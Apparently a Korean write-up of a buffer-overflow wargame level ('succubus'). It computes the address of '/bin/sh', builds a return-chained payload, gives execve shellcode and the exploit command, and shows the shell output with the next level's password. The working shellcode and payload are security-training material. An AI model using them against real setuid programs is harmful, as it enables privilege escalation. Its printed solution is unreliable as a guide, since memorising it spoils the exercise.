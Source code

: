 0xbfbfbfbf 가 들어간 이후를 보니 "'/bin/sh"문자열이 ASCII 코드로 들어가 있다. 이 주소를 구해보면 `0xbffffa88` 가 된다. 이 주소를 `0xbfbfbfbf`에 넣으면 끄읏!

```python
string = "/bin/sh"
for x in string: 
    hex(ord(x))
...
'0x2f'
'0x62'
'0x69'
'0x6e'
'0x2f'
'0x73'
'0x68'
```

&"/bin/sh" : 0xbffffab8

payload 시나리오 :

`|dummy(44)|&DO|&GYE|&GUL|&YUT|&MO|dummy(4)|\xb8\xfa\xff\xbf|"/bin/sh"|`

-----

### 0x02. Exploit

```
shellcode(24byte) :
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
./succubus `python -c 'print "A"*44+"\xec\x87\x04\x08"+"\xbc\x87\x04\x08"+"\x8c\x87\x04\x08"+"\x5c\x87\x04\x08"+"\x24\x87\x04\x08"+"\x90"*4+"\xb8\xfa\xff\xbf"+"/bin/sh"'`
```

```
[zombie_assassin@localhost zombie_assassin]$ python ex.py
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?♦펶뙁\?$?릱릱X??bin/sh
welcome to the DO!
welcome to the GYE!
welcome to the GUL!
welcome to the YUT!
welcome to the MO!
bash$ id
uid=516(zombie_assassin) gid=516(zombie_assassin) euid=517(succubus) egid=517(succubus) groups=516(zombie_assassin)
bash$ my-pass
euid = 517
here to stay
```

-----

##### python
